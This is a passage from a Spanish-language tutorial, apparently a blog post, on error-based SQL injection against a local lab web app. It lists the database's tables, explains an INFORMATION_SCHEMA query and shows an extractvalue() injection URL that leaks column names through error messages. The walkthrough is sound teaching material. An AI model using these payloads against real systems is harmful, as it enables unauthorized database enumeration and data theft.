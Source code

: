 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-information_schema-tables-limit-0-1.png" style="width: 100%;"/>

La primera tabla se llama `games`, si nos movemos entre filas, solo encontramos una más llamada `gamesatin_users`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-information_schema-tables-limit-1-1.png" style="width: 100%;"/>

Así que en resumen:

```sql
# Bases de datos
information_schema
performance_schema
gamesatin
# Tablas de la base de datos 'gamesatin'
games
gamesatin_users
```

Lindo lindo, vamos avanzando, nuestro siguiente objetivo es identificar que columnas existen es esas tablas, logrando así la posterior extracción de data alojada en ellas. La más llamativa en este punto es `gamesatin_users`, ya que posiblemente este alojando datos de **usuarios**.

> De igual forma es importante para nuestra enumeración conocer que datos estan almacenados en otras tablas, no sabemos que joyas podemos estar obviando.

## SQLi Error-Based - Columnas [#](#explotacion-sqli-error-based-columns) {#explotacion-sqli-error-based-columns}

En este paso usaremos de la metadata [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.3/en/information-schema.html) la tabla [COLUMNS](https://dev.mysql.com/doc/refman/8.3/en/information-schema-columns-table.html) y sus campos [TABLE_SCHEMA](https://dev.mysql.com/doc/refman/8.3/en/information-schema-columns-table.html), [TABLE_NAME](https://dev.mysql.com/doc/refman/8.3/en/information-schema-columns-table.html) y [COLUMN_NAME](https://dev.mysql.com/doc/refman/8.3/en/information-schema-columns-table.html), formando esta consulta:

```sql
SELECT column_name FROM information_schema.columns WHERE table_schema = 'gamesatin' AND table_name = 'gamesatin_users' LIMIT 0,1;
```

Donde (yo creo que ya sabes más o menos como leer la consulta según la explicación anterior, si no, cero lío):

* `column_name` nos extraerá los nombres de las columnas asociadas a la tabla referenciada en
* `table_name`, en este caso **gamesatin_users**, que está alojada en la base de datos indicada por la columna/campo
* `table_schema`, o sea, **gamesatin**.

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_schema = 'gamesatin' AND table_name = 'gamesatin_users' LIMIT 0,1)));#
```

Y al ejecutarla en el servidor web, descubrimos que la primera columna se llama `id`:
